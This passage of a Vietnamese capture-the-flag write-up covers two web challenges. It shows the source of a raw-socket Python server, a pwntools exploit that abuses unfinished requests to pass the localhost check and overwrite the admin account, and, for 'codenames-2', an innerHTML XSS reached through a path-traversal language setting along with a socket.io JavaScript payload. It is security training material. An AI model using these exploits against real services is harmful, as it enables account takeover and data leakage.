        driver = webdriver.Chrome(service=Service(ChromeDriverManager().install()), options=options)
        try:
            driver.get(url)
            WebDriverWait(driver, 10).until(
                lambda d: d.execute_script("return document.readyState") == "complete"
            )
            print(f"[+] Selenium visited {url}")
        except Exception as e:
            print(f"[!] Error visiting {url}: {e}")
        finally:
            driver.quit()

    threading.Thread(target=visit_site, args=(target,), daemon=True).start()
    return build_response(f"Spawning Selenium bot to visit: {target}")

# server logic
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server.bind((HOST, PORT))
server.listen(5)
server.setblocking(False)
print(f"[*] Listening on {HOST}:{PORT}")

clients = {}

while True:
    read_list = [server]+list(clients.keys())
    rlist, _, _ = select.select(read_list, [], [], 0.1)

    for s in rlist:
        if s is server:
            client_sock, addr = server.accept()
            client_sock.setblocking(False)
            clients[client_sock] = {"addr": addr, "buffer": b""}
            print(f"[*] New client {addr}")
        else:
            client = clients[s]
            try:
                data = s.recv(4096)
                if not data:
                    s.close()
                    del clients[s]
                    continue

                client["buffer"] += data

                while True:
                    request_text = client["buffer"].decode(errors="ignore")
                    if "\r\n\r\n" not in request _text:
                        break

                    header, _, body = request_text.partition("\r\n\r\n")
                    lines = header.splitlines()
                    if not lines:
                        client["buffer"] = b""
                        break

                    try:
                        method, path_query, http_version = lines[0].split()
                        parsed = urlparse(path_query)
                        path = parsed.path
                        query = parse_qs(parsed.query)
                    except:
                        s.send(build_response("400 Bad Request", status=400).encode())
                        s.close()
                        del clients[s]
                        break

                    content_length = 0
                    keep_alive = http_version.upper()=="HTTP/1.1"
                    headers = {}
                    for line in lines[1:]:
                        headers[line.lower().split(": ")[0]] = ": ".join(line.split(": ")[1:])
                        if line.lower().startswith("content-length:"):
                            content_length = int(line.split(":",1)[1].strip())
                        if line.lower().startswith("connection:"):
                            if "close" in line.lower(): keep_alive=False
                            elif "keep-alive" in line.lower(): keep_alive=True

                    post_body = body[:content_length] if method.upper()=="POST" else ""

                    handler = routes.get(path)
                    if handler:
                        response_body = handler(method, post_body, query, headers, addr)
                    else:
                        response_body = build_response("<h1>404 Not Found</h1>", status=404, keep_alive=keep_alive)

                    s.send(response_body.encode())
                    client["buffer"] = client["buffer"][len(header)+4+content_length:]

                    if not keep_alive:
                        s.close()
                        del clients[s]
                        break

            except Exception as e:
                print(f"[!] Error with client {client['addr']}: {e}")
                s.close()
                del clients[s]

```

Bài này mô phỏng lại việc mình gửi request và response nhưng mà bằng web socket:
- Đầu tiên, endpoint `/register` sẽ sử dụng 2 header là `x-username` và `x-password`. Ngoài ra, client_adr phải là `127.0.0.1` và method phải là `POST`
- Tiếp theo, endpoint `/visit` sẽ sử dụng header `x-target` với method phải là `POST`. Bot sẽ visit url được đặt trong header `x-target`. 
- Endpoint `/flag` thì yêu cầu header `Authorization` để lấy flag nếu user là admin
- Admin password thì được gen ngẫu nhiên nên không thể đoán

Vậy thì ta phải làm thế nào. Ta nhận thấy rằng, mình có thể tự ý kết thúc request bằng việc sử dụng `/r/n/r/n` hoặc nếu không sử dụng, thì request đó sẽ không kết thúc. Ngoài ra, trong vòng while, nếu có 1 request đến server, nếu request đó là mới, nó sẽ ghi vào dict `clients`, và nếu request đó đã tồn tại trong clients, thì nó sẽ thực hiện request. 

Sau khi tôi nghiên cứu qua wup bài này từ 1 người trên dis tung ra full exploit của họ, thì tôi mới hiểu mình phải làm gì. Mình sẽ gửi 1 request đăng kí nhưng ko xài `/r/n/r/n` để đóng request. Mà ta sẽ gửi tiếp 1 request đến con bot rồi sau đó mới gửi `/r/n/r/n`. Khi request được gửi đến con bot, biến addr sẽ bị ghi đè thành localhost. Mà biến đó là thứ trực tiếp thao túng client_addr, giúp ta bypass được điều kiện 127.0.0.1. 

Tiếp nữa, nếu ta đăng kí với username là `admin`, thì username `admin` trên server sẽ bị ghi đè. Lý do là vì server sử dụng `accounts[username] = password` mà không check xem username có trùng với username có tồn tại chưa. Kết hợp 2 điều trên, ta hoàn toàn có thể đăng 
kí acc admin theo ý thích và lụm flag

### 3. Exploit

Chạy đoạn code sau (này mình lấy từ wup của trên discord)

```py
from pwn import *
import time
import requests

HOST, PORT = "127.0.0.1", 3002
data_url = "http://127.0.0.1:8080"

username = "admin"
password = "duc193"

def send_bot():
    r = remote(HOST, PORT)
    request = f"""POST /visit HTTP/1.1\r\nHost: localhost:8080\r\nX-Target: {data_url}\r\nContent-Length: 0\r\n\r\n"""
    r.send(request.encode())
    try:
        resp = r.recv(timeout=5)
    except EOFError:
        pass
    r.close()


if __name__ == "__main__":
    r = remote(HOST, PORT)
    chunk1 = (
        f"POST /register HTTP/1.1\r\n"
        f"Host: 127.0.0.1\r\n"
        f"X-Username: {username}\r\n"
        f"X-Password: {password}\r\n"
        f"Content-Length: 0\r\n"
    ).encode()
    r.send(chunk1)

    send_bot()
    time.sleep(5)
    r.send(b"\r\n\r\n")

    try:
        resp = r.recv(4096, timeout=5)
        print("[main] resp:", resp.decode(errors="ignore"))
    except EOFError:
        pass
    r.close()
    print("\n")
    url = f"http://localhost:3002/flag"
    res = requests.get(url, auth=(username, password))
    print("FLAG:", res.text)
```

## VII. codenames-2
### 1. Description
Số solve: 28 solves
```
Codenames is no fun when your teammate sucks... Flag is in the environment variable FLAG_2, and please don't spawn a lot of bots on remote. Test locally first.

Instancer: nc 34.72.72.63 1337
```

### 2. Phân tích
Trước tiên, ta phải xem những gì mình có trong tay. Thứ nhất, hãy nói về lỗ hổng đi. Ngoài lỗ hổng path traversal như đã nói, thì ta còn tìm thấy xss bằng cách tìm kiếm cụm `innerHTML` trong source.

File `main.js`
```js
  function renderBoard() {
    boardTable.innerHTML = '';
    for (var i = 0; i < board.length; i++) {
      if (i % 5 === 0) {
        var row = boardTable.insertRow();
      }
      var word = board[i];
      var cell = row.insertCell();
      cell.innerHTML = word;
      cell.id = 'cell-' + i;
      cell.setAttribute('data-idx', i);
      cell.className = 'cell';
      if (isClueGiver) {
        // show all colors, darker for guessed
        var base = lightMap[boardColors[i]];
        cell.style.backgroundColor = base;
        if (revealed[i]) {
          cell.style.backgroundColor = darkMap[boardColors[i]];
          cell.style.border = '2px solid #000';
        }
      } else {
        // only show guessed colors; unrevealed entries stay white
        if (revealed[i]) {
          cell.style.backgroundColor = lightMap[boardColors[i]];
        } else {
          cell.style.backgroundColor = '#ffffff';
        }
        cell.addEventListener('click', function() {
          var idx = parseInt(this.getAttribute('data-idx'), 10);
          if (revealed[idx] || parseInt(guessesVal.innerText, 10) <= 0) { return; }
          socket.emit('make_guess', { index: idx });
        });
      }
    }
  }
```

Hàm này lấy trực tiếp giá trị từ trong words, xong đó đi qua `innerHtml` và in ra màn hình dưới dạng các cell. Ngoài ra, ta còn có 1 con bot nữa

File bot.py

```py
    join_url = f"{base_url}/join_game"
    driver.get(base_url + '/lobby')
    WebDriverWait(driver, 5).until(EC.presence_of_element_located((By.NAME, 'code')))
    code_input = driver.find_element(By.NAME, 'code')
    code_input.clear()
    code_input.send_keys(code)
    driver.find_element(By.CSS_SELECTOR, 'form[action="/join_game"] button[type="submit"]').click()
    # Wait for game page
    WebDriverWait(driver, 10).until(EC.url_contains(f'/game/{code}'))
```

Ta thấy rằng bot sẽ ghé qua endpoint `/game/<code>`, nơi mà ta có thể inject xss. Vậy thì ta có 2 nhiệm vụ, nhiệm vụ 1 là tìm cách thực thi câu lệnh xss, còn nhiệm vụ thứ 2 là tìm lệnh js thích hợp để lấy được các giá trị cần thiết, tý nữa ta sẽ bàn sau.

Trước hết thì ta sẽ xss kiểu gì. Hãy thử đặt 1 username tên là `kou.txt` còn password thì tùy. Sau đó, thực hiện thay đổi ngôn ngữ thành như ảnh sau



Thì ta được kết quả như sau



Ta nhận ra rằng, mình có thể thao túng giá trị của 1 cell bằng cách đặt username là `<thứ mình muốn hiển thị>.txt`, sau đó chọn ngôn ngữ là `/app/profiles/<thứ mình muốn hiển thị>` và join game để nó hiển thị ra màn hình.

Đã có kết luận trên rồi, hãy thử với 1 payload xss xem, payload là ``````



Bây giờ ta sẽ craft đoạn mã js tự động gửi đáp án khi tôi ghé vào, ở đây tôi sẽ chạy đoạn mã js sau để test (mọi người nên xài ```eval(atob(`<base 64 of the payload>`))``` )

```js
c=io("/",{query:{code:code}});c.on("connect",()=>c.emit("join"));c.on("start_game",d=>c.emit("give_clue",{clue:JSON.stringify(d),number:100}));
```

Và kết quả trả về là



Đoạn mã trên sẽ vừa khiến cho `clue_giver` phải gửi toàn bộ bảng màu của phòng, mà còn khiến ta có thể tăng số lượt chơi trên lên 100. Tại sao phải lòng vòng như thế, đó là bởi vì server sẽ bị 500 nếu ta đặt tên quá dài. 

### 3. Khai thác

Chúng ta lắp ráp lại mọi thứ đã phân tích thôi

- Bước 1: Tạo 1 username như sau 
```js
.txt
```
- Bước 2: Thực thi lỗ hổng xss như đã phân tích bên trên, tạo 1 phòng với language là `/app/profiles/<username ở bước 1 nhưng bỏ .txt>`
- Bước 3: Vô phòng, xong đó add bot
- Bước 4: Ở WebSocket history trên burp suite, sẽ có response trả về leak toàn bộ thông tin về game. Nếu bạn phe đỏ thì chọn tất cả các cái màu đỏ và ngược lại và lụm flag



Mình test trên codename1 nên nó ko có flag :(

### 4. Flag

Mình có tham khảo qua cách giải từ [đây](https://nullbrunk.github.io/posts/imaginaryctf-2025-codenames-2)

Flag thì mình lấy tạm của họ cho đỡ trống nhé, tại cũng hết giải nên ko vô dc codename2 do nó xài nc 

`ictf{insane_mind_reading_908f13ab}`